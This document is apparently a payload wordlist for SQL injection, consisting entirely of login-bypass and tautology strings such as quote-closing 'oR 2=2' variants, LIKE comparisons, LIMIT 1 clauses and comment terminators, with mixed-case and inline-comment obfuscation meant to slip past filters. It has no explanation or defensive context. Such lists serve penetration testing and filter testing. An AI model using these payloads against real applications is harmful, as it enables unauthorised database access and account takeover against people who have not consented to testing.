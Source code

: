```
"||"2"LiKE"2"||"
"||(2)LiKE(2)-- 2
"||(2)LiKE(2)#
"||(2)LiKE(2)/*
"||(2)LiKE(2)||"
')oR('2
')oR'2'-- 2
')oR'2'#
')oR'2'/*
')oR'2'oR('
')oR(2)-- 2
')oR(2)#
')oR(2)/*
')oR(2)oR('
')oR 2-- 2
')oR 2#
')oR 2/*
')oR 2 oR('
')oR/**/2-- 2
')oR/**/2#
')oR/**/2/*
')oR/**/2/**/oR('
")oR("2
")oR"2"-- 2
")oR"2"#
")oR"2"/*
")oR"2"oR("
")oR(2)-- 2
")oR(2)#
")oR(2)/*
")oR(2)oR("
")oR 2-- 2
")oR 2#
")oR 2/*
")oR 2 oR("
")oR/**/2-- 2
")oR/**/2#
")oR/**/2/*
")oR/**/2/**/oR("
')oR'2'=('2
')oR'2'='2'oR('
')oR'2'='2'-- 2
')oR'2'='2'#
')oR'2'='2'/*
')oR 2=2-- 2
')oR 2=2#
')oR 2=2/*
')oR 2=2 oR('
')oR/**/2=2-- 2
')oR/**/2=2#
')oR/**/2=2/*
')oR/**/2=2/**/oR('
')oR(2)=2-- 2
')oR(2)=2#
')oR(2)=2/*
')oR(2)=(2)oR('
')oR'2'='2' LimIT 1-- 2
')oR'2'='2' LimIT 1#
')oR'2'='2' LimIT 1/*
')oR(2)=(2)LimIT(1)-- 2
')oR(2)=(2)LimIT(1)#
')oR(2)=(2)LimIT(1)/*
")oR"2"=("2
```